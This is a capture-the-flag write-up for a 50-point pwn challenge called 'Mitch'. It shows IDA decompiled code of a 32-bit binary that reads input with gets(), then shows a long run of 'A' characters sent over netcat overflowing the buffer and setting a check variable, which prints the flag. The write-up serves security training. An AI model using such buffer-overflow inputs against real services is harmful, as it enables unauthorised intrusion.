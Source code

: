 # Pwn 50 - Mitch 

We are given a binary called isMitch and a a netcat server:
```nc 40.76.33.15 12345```

We can run ```file isMitch``` to see that it is a 32 bit binary executable

```isMitch: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=755b5a21168f49efe37d6fef810521cb9d675015, not stripped```

The disassembler (with a decompiler plugin) I use is IDA-Pro. However, tools like objdump, retdec.com, hopper, and radare2 all work too.

The pseudocode decompiled with IDA Hexrays is as follows:

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int s; // [esp+0h] [ebp-4Eh]
  __int16 v5; // [esp+4h] [ebp-4Ah]
  int v6; // [esp+2Eh] [ebp-20h]
  int v7; // [esp+32h] [ebp-1Ch]
  int *v8; // [esp+42h] [ebp-Ch]

  v8 = &argc;
  setbuf(_bss_start, 0);
  print_header();
  s = 0;
  v6 = 0;
  memset(
    (void *)((unsigned int)&v5 & 0xFFFFFFFC),
    0,
    4 * (((unsigned int)((char *)&s - ((unsigned int)&v5 & 0xFFFFFFFC) + 50) & 0xFFFFFFFC) >> 2));
  v7 = 0;
  gets((char *)&s);
  if ( v7 )
  {
    printf(
      "Thats very impressive, \x1B[0;33m%s\x1B[0m.\n"
      " You have joined the elite ranks of the Purdue Presidents. Now continue on your journey to learn about the \x1B[1;"
      "31mhacks\x1B[0m\n"
      "\n",
      &s);
    print_flag();
  }
  else
  {
    printf("Sorry I can't do anything for you \x1B[0;33m%s\x1B[0m, you're not \x1B[0;32mMitch\x1B[0m!\n", &s);
  }
  return 0;
}
```

The important parts are:
```C
v7 = 0;
  gets((char *)&s);
  if ( v7 )
  {
    printf(
      "Thats very impressive, \x1B[0;33m%s\x1B[0m.\n"
      " You have joined the elite ranks of the Purdue Presidents. Now continue on your journey to learn about the \x1B[1;"
      "31mhacks\x1B[0m\n"
      "\n",
      &s);
    print_flag();
  }
```

We can see that if v7 is non zero, then the flag gets printed. The program also uses a gets() call, which provides us with a buffer overflow to modify the v7 variable. Thus, we can just spam characters, and v7 will be edited to a non-zero value and the flag will be printed.

Of course, we have to do this with the netcat server for the flag on the server to be printed:

```
alex@WINDOWS-0A3VRFK:/mnt/c/Users/alex/Desktop/CTF$ nc 40.76.33.15 12345

So you want to learn how to hack...
Well you see only Mitch Daniels can learn the secret to the hax and I don't think you're Mitch so I dont know if I can help you
Give me your name anyway
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thats very impressive, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
 You have joined the elite ranks of the Purdue Presidents. Now continue on your journey to learn about the hacks

b0ctf{y0u_4r3_M1tch_d4nie1$$$}
```

## Flag
### b0ctf{y0u_4r3_M1tch_d4nie1$$$}
